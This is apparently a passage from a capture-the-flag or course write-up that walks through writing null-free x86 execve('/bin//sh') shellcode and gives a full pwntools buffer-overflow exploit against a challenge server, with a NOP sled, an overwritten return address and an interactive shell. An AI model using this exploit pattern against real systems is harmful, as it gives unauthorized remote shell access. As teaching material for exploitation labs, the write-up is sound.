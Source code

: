 While it may not be the case here, in some cases NULL bytes in shellcode can cause issues (like when string functions are used) so we'll avoid that. We can get a NULL on the stack by using an XOR on a register and pushing the value. But '/bin/sh' without the null byte now is 7 bytes but stack operations work with 4 bytes at a time. So we just add an extra slash to make '/bin//sh' which is 8 bytes and is valid.
In ascii this string is 2f 62 69 6e 2f 2f 73 68. Since we need to use little endian we'll reverse this and group them in groups of 4 bytes/characters to get 68732f2f 6e69622f. These are the values we'll push on the stack. So we can get our string on the stack with:
```
xor ecx, ecx
push ecx
push 0x68732f2f
push 0x6e69622f
```
Now we need to call the execve syscall which has number 0xb so we'll put that in eax. esp will go into ebx and the two NULL parameters will go in ecx and edx. We need to set edx to 0 but ecx is already 0 from before.
```
xor eax, eax
mov al, 0x0b
mov ebx, esp
xor edx, edx
int 0x80
```
Altogether the exploit looks like the following:
```
from pwn import *

p = remote('plsdonthaq.me', 3002)

p.recvuntil('address: ')

stack_addr = p32(int(p.recvline().rstrip(), 16))
print(stack_addr)

shellcode = asm(""" xor eax, eax
                    xor ecx, ecx
                    xor edx, edx
                    push ecx
                    push 0x68732f2f
                    push 0x6e69622f
                    mov al, 0x0b
                    mov ebx, esp
                    int 0x80 """)

#buffer 0x2008 from return addr + 4 for our return addr
payload_len = 0x2008 + 4
#buffer goes from ebp-0x2008 to ebp-0x4
#keep our shellcode within buffer by padding ebp-0x4 to ebp+0x4
nop_sled = b'\x90' * (payload_len-len(shellcode)-8-len(stack_addr))
payload = nop_sled + shellcode + b'A'*8 + stack_addr

p.sendline(payload)

p.interactive()

```
